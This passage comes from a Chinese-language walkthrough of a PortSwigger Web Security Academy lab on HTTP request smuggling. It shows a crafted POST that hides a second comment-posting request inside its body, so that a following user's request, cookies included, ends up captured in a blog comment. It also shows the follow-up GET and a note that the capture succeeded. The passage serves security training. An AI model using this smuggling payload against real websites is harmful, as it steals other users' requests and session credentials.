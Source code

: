 请求报文1

```plain
POST / HTTP/1.1
Host: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net
Connection: keep-live
Content-Length: 631

POST /en/post/comment HTTP/1.1
Host: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net
Cookie: session=IVyZ195O8xf57pxHj67NWTnINcMnLhx5; _lab_analytics=Ep2xqyavvsZdf4X8ozQb4i0y0HvPKRxQeJN9sIHk91JVUMoZBydIofsyqWL72BINYScmFaJnfLP1NaLgczuV1Deg5ighDljgshun8uVDCmNVXEWaYtSALPEfDLHnSesd2Q0yEYPBtj5SAEVXEXeF8s832NQFFArwAhwlwU8ETbp7luLXJe66IKsp9aBd69gsqtnMsIXGhOoZkqkJ9DZqebES82Vk2xetArPJLiZbS6j9TnBLgH5D6as1sTVQFQi0
Content-Length: 128
Content-Type: x-www-form-urlencoded
Connection: keep-alive

csrf=oeSUFWMfMoMJbOyXez7fU3KDpGKjbYdU&postId=2&name=QWQQ&email=test123%40163.com&website=http%3A%2F%2Fwww.baidu.com&comment=
```

请求报文2:

```plain
GET /capture-me HTTP/1.1
Host: YOUR-LAB-ID.h1-web-security-academy.net
```

[![](assets/1705301772-f76e92045df0f626a9853acc702cca53.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183401-6e90fe64-b2c8-1.png)  
[![](assets/1705301772-f7577c9fda80a27596e5727c2eb6b4b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183411-7483a966-b2c8-1.png)  
回到浏览器刷新博客文章并在评论中可以看到已成功输出"GET /capture"请求的开始  